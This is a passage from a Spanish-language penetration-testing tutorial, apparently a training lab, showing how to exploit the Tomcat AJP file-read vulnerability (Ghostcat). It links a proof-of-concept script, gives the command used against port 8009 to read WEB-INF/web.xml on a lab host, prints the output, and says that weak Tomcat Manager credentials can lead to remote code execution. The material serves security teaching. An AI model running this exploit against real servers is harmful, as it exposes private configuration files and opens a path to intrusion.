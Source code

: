 El escaneo anterior confirma que los puertos 8080 y 8009 están abiertos. El código PoC para la vulnerabilidad se puede encontrar [aquí](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi). Descarga el script y guárdalo localmente. El exploit solo puede leer archivos y carpetas dentro de la carpeta web apps, lo que significa que archivos como `/etc/passwd` no se pueden acceder. Intentemos acceder al archivo web.xml.

```r
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml 

Getting resource at ajp13://app-dev.inlanefreight.local:8009/asdf
----------------------------
<?xml version="1.0" encoding="UTF-8"?>
<!--
 Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<web-app xmlns="http://xmlns.jcp.org/xml/ns/javaee"
  xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://xmlns.jcp.org/xml/ns/javaee
                      http://xmlns.jcp.org/xml/ns/javaee/web-app_4_0.xsd"
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to Tomcat
  </description>

</web-app>
```

En algunas instalaciones de Tomcat, podríamos acceder a datos sensibles dentro del archivo WEB-INF.

---

## Continuando

Tomcat siempre es un gran hallazgo en pruebas de penetración internas y externas. Siempre que lo encontremos, debemos probar el área del Tomcat Manager para ver si tiene credenciales débiles/predeterminadas. Si podemos iniciar sesión, podemos convertir rápidamente este acceso en ejecución remota de código. Es común encontrar Tomcat ejecutándose como usuarios de alto privilegio, como SYSTEM o root, por lo que siempre vale la pena investigarlo, ya que podría proporcionarnos un punto de apoyo privilegiado en un servidor Linux o en un servidor Windows unido a un dominio en un entorno de Active Directory.

---